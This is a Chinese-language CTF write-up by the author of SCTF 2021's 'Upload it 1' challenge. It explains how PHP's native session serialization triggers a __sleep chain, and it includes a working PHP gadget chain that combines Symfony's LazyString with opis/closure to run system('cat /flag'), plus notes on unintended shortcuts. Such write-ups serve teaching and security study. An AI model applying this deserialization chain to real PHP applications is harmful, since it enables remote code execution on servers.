 # Upload it 1

~~被非预期惨了（~~

# How to Start and Stop
## start
```shell
docker-compose up -d
```

## stop
```shell
docker-compose down --rmi all
```

# writeup

题目是一个任意文件上传，但当前目录没有写权限，只能上传到/tmp目录。
题目有`composer.json`，导入了两个包。
```json
{
    "name": "sctf2021/upload",
    "authors": [
        {
            "name": "AFKL",
            "email": "upload@qq.com"
        }
    ],
    "require": {
        "symfony/string": "^5.3",
        "opis/closure": "^3.6"
    }
}
```

## 预期解
在出完`ezsou`一题后，我注意到`imi`框架作者使用序列化来统计字符串长度，导致触发了`__sleep`链。我便想php的原生session是否也会触发。于是便去审计php源码。

在`session.c#L2744`中，可以发现session组件在一个请求结束后判断session是否active，如果active就去调用`php_session_flush`函数。

![image-20211230171214360](https://gitee.com/AFKL/image/raw/master/img/image-20211230171214360.png)

![image-20211230171409423](https://gitee.com/AFKL/image/raw/master/img/image-20211230171409423.png)

![image-20211230171503656](https://gitee.com/AFKL/image/raw/master/img/image-20211230171503656.png)

经过一系列调用，最终程序会走到`php_session_encode`中，而这个函数会调用对应的session.serialize_handler。

![image-20211230171751978](https://gitee.com/AFKL/image/raw/master/img/image-20211230171751978.png)

题目中的handler通过phpinfo得知为`php`

![image-20211230171933991](https://gitee.com/AFKL/image/raw/master/img/image-20211230171933991.png)

而`php`handler的`encode`实现中必然调用了序列化函数，那么说明`php`的原生session同样可以触发`__sleep`链。

![image-20211230172121544](https://gitee.com/AFKL/image/raw/master/img/image-20211230172121544.png)

那么这样只需要通过`LazyString`的`__sleep`点调用匿名函数库即可。

```php
<?php
namespace Symfony\Component\String {
    class LazyString {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace {
    include_once "vendor/autoload.php";
    $func = function() {system("cat /flag");};
    $raw = \Opis\Closure\serialize($func);
    $data = unserialize($raw);
    $exp = new \Symfony\Component\String\LazyString($data);

    var_dump(base64_encode(serialize($exp)));
}
```

## 十万乃至九万的非预期

这道题最失败的一点，如同某位大师傅说的：

![image-20211231024912928](https://gitee.com/AFKL/image/raw/master/img/image-20211231024912928.png)

确实这种组件必然有写就有读，而且触发过于简单，导致许多人并没有注意到触发`__sleep`链的这个操作就把题做出来了，这脱离了我出这题的初衷...

还有就是我对库本身还不够理解，例如我并不知道匿名函数库中的function字段可以将`function() {system("cat /f*");}`修改为一段代码`system("cat /f*")`。这样可以直接在反序列化的时候触发。这也是为什么我临时出了一道`Upload it 2`。

![image-20211231030648347](https://gitee.com/AFKL/image/raw/master/img/image-20211231030648347.png)

还有就是session中的属性有字符串操作，导致其直接触发了`__toString`...

总的来说`upload it`两题出的很失败，希望师傅们多多谅解，也希望师傅们可以通过这个wp学到东西。